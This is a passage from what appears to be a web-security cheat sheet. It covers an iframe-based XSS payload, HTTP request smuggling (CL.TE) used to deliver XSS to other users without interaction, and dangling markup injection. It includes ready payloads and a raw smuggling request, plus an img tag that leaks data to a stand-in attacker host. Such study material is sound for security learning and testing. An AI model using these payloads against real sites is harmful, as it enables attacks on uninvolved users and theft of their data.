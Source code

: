 ```html
<iframe src="https://vuln-catalog/product?productId=1&'><script>print()</script>" onload="location='https://vuln-catalog/exploit'"></iframe>
```

#### using http request smuggling

[-> smuggling cheat sheet](/web/server-side/request-smuggling.md)

If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

- It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

Request exploiting CL.TE:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

## Dangling markup injection

Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

### What is dangling markup injection?

Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

Suppose an application embeds attacker-controllable data into its responses in an unsafe way:

```HTML
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

If you send that:

```html
"><img src='//attacker-website.com?
```

This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the src attribute, which is left "dangling".
